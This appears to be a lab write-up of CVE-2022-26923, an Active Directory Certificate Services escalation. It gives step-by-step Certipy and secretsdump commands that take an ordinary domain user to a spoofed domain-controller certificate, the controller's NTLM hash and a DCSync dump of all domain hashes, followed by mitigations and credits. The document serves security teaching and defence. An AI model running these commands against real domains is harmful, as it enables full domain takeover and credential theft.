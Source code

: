 # Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- The Exploit as a Conversation
- Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from templates in a certificate signing request (CSR).
3. There are two types of templates available in ADCS by default: User and Computer.
4. Those templates are accessible to anyone in the `Domain Users` or `Domain Computers` groups.
5. Those templates allow the certificate holder to authenticate with them.
6. When generating a certificate for a computer object, the template will check its `DNSHostname` property and generate the certificate based on that.
7. By default, any authenticated user can join up to 10 computers to the domain.
8. When a user joins a computer to the domain, he can modify its `DNSHostname` property.
9. Combining the last two points, a user can spoof the DNSHostname to forge a certificate as a domain controller.
10. with a domain controller's certificate, the user can obtain the computer account's NTLM hash.
11. And with that hash, can he pose as a domain controller and request a full copy of the domain's hashes (a.k.a perform a `DCSync` attack).

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft (https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923)
2. Reduce certificate template permissions.
3. Reduce the default user's machine quota to zero. Only Administrators should have this privilege

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all (https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- **Oliver Lyak** (https://twitter.com/ly4k_) who discovered and reported the vulnerability and created the Certipy tool.